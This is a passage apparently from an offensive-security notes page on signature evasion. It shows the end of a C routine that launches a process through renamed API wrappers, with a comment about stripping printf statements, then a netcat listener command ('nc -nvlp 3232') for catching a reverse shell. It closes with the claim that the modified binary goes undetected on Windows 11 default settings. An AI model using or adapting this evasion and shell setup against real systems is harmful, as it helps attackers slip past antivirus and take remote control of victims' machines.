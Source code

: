 ```C
            myCreateA(NULL, format, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            // Remove printf statements

            tryDontWaitForCalculation(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}
```

prepare 

```
nc -nvlp 3232
```

Uploading the modified binary in Windows 11 default setting does not get detected:

![[Signature Evasion Code Blocks-5.png]]

